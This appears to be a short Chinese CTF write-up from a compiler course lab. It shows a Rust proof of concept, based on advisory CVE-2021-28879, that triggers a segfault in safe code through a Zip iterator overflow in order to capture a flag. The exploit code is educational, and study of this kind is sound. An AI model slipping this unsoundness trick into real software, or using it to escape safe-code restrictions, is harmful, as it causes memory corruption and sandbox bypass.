 # 编原译理习题课 · 实验班

> 第二阶段提示后完成。

## Flag 1

参考 [CVE-2021-28879](https://rustsec.org/advisories/CVE-2021-28879.html)，使用下面的[示例](https://play.rust-lang.org/?version=stable&mode=release&edition=2018&gist=0e6f0c70e6aaaba62610f19fd9186756)代码成功触发段错误拿到 Flag 1：

```rust
#![forbid(unsafe_code)]

fn overflowed_zip(arr: &[i32]) -> impl Iterator<Item = (i32, &())> {
    static UNIT_EMPTY_ARR: [(); 0] = [];

    let mapped = arr.into_iter().map(|i| *i);
    let mut zipped = mapped.zip(UNIT_EMPTY_ARR.iter());
    zipped.next();
    zipped
}

pub fn run() {
    let arr = [1, 2, 3];
    let zip = overflowed_zip(&arr).zip(overflowed_zip(&arr));

    dbg!(zip.size_hint());
    for (index, num) in zip.map(|((num, _), _)| num).enumerate() {
        println!("{}: {}", index, num);
    }
}
```
